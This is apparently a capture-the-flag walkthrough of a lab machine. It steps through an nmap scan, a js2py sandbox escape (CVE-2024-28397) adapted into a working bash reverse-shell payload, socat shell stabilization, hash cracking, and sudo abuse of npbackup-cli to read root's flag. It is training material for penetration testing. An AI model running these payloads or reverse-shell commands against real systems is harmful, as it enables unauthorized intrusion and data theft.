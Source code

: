 ![](images/image0.png)

# **Target Machine Walkthrough**

This report documents the full exploitation process of the target machine, structured in a professional **penetration testing style walkthrough**. It covers reconnaissance, enumeration, exploitation, credential access, lateral movement, privilege escalation, and flag capture.

## **🔍 Reconnaissance**

We begin with a full TCP port scan using **Nmap**:

```
nmap -p- -Pn 10.129.237.227 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && \
sleep 5 && nmap -Pn 10.129.237.227 -sC -sV -v -oN nmap_sVsC.txt && \
sleep 5 && nmap -T5 -Pn 10.129.237.227 -v --script vuln -oN nmap_vuln.txt
```

![](images/image1.png)

## **📦 Application Enumeration**

[![](images/image2.png)](https://github.com/Ma*rven11/CVE-2024-28397-js2py-Sandbox-Escape)

We discover a `/download` endpoint allowing us to retrieve `app.zip`. After extraction:

```
unzip app.zip
cd app
cat app.py
```

![](images/image3.png)

Checking the dependencies in `requirements.txt`:

![](images/image4.png)

## **⚡ Exploitation – CVE-2024-28397 (js2py Sandbox Escape)**

The application leverages `js2py`, which is vulnerable to a sandbox escape (CVE-2024-28397). Reference: [GitHub – CVE-2024-28397](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape)

We adapt the PoC exploit to achieve a reverse shell:

```
let cmd = "bash -c 'bash -i >& /dev/tcp/10.10.15.30/4445 0>&1'"

let hacked, bymarve, n11
let getattr, obj

hacked = Object.getOwnPropertyNames({})
bymarve = hacked.__getattribute__
n11 = bymarve("__getattribute__")
obj = n11("__class__").__base__
getattr = obj.__getattribute__

function findpopen(o) {
    let result;
    for (let i in o.__subclasses__()) {
        let item = o.__subclasses__()[i]
        if (item.__module__ == "subprocess" && item.__name__ == "Popen") {
            return item
        }
        if (item.__name__ != "type" && (result = findpopen(item))) {
            return result
        }
    }
}

n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()
console.log(n11)
n1
```

![](images/image5.png)

## **🖥️ Reverse Shell & Stabilization**

Successful reverse shell connection established:

![](images/image6.png)

We stabilize the shell using socat:

```
chmod +x socatx4.bin
./socatx64.bin exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.16.14:4444
```

![](images/image7.png)

## **🗄️ Database Discovery**

Inside the `instance` folder we discover a SQLite database:

![](images/image8.png)

The database contains user password hashes:

![](images/image9.png)

Identifying the hash format:

![](imagesimage10.png)

We successfully crack `marco’s` password hash:

![](images/image11.png)

## **👤 User Access**

We log in as `marco` with the cracked credentials

![](images/image12.png)

We obtain the `user flag` from Marco’s desktop

## **🔝 Privilege Escalation – npbackup-cli**

We identify a privilege escalation vector via `npbackup-cli`. Reference: [npbackup-cli PrivEsc](https://github.com/AliElKhatteb/npbackup-cli-priv-escalation)

We modify the exploit (line 11):

![](images/image13.png)

Transferred to the host and executed:

![](images/image14.png)

```
sudo /usr/local/bin/npbackup-cli -c npbackup.conf --backup
```

Finally, we dump the `root flag`:

```
sudo /usr/local/bin/npbackup-cli -c npbackup.conf --dump /root/root.txt --snapshot-id a42c804d
```

## **🏁 Results & Conclusion**

**Attack Path:**

* **Recon** → Identified `/download` endpoint.  
* **Enumeration** → Found `js2py` vulnerable.  
* **Exploitation** → CVE-2024-28397 (reverse shell).  
* **Database Enumeration** → Extracted Marco’s hash, cracked credentials.  
* **Privilege Escalation** → npbackup-cli exploit → root access.  
* **Flags** → Obtained both `user.txt` and `root.txt`.

**Outcome:** Successful full compromise of the machine.

